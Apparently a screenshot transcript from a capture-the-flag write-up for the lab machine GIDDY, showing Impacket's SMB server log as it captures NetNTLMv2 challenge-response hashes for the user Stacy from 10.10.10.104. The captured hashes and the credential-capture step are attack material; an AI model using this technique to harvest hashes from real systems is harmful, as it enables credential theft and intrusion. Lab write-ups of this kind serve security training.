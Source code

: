 Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49708)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User Stacy\GIDDY authenticated successfully
[*] Stacy::GIDDY:4141414141414141:f87506db66f7e99004cc0717319b5d75:010100000000000000b9e1541ce1d401101781eb54f1d6c900000000010010006a005400740072006f005800750075000200100052007500450062004f0068004a004300030010006a005400740072006f005800750075000400100052007500450062004f0068004a0043000700080000b9e1541ce1d40106000400020000000800300030000000000000000000000000300000fbd94ab1a16ef9489ad346b5dc85c43c89a59ce056bbacd4c01c77e376d46c2c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0034003400000000000000000000000000
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User Stacy\GIDDY authenticated successfully
[*] Stacy::GIDDY:4141414141414141:d851b03892e09609163eec8b7a79e892:010100000000000000e612561ce1d401d6f4cad26a96044600000000010010006a005400740072006f005800750075000200100052007500450062004f0068004a004300030010006a005400740072006f005800750075000400100052007500450062004f0068004a0043000700080000e612561ce1d40106000400020000000800300030000000000000000000000000300000fbd94ab1a16ef9489ad346b5dc85c43c89a59ce056bbacd4c01c77e376d46c2c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0034003400000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Handle: [Errno 104] Connection reset by peer
[*] Closing down connection (10.10.10.104,49708)
[*] Remaining connections []

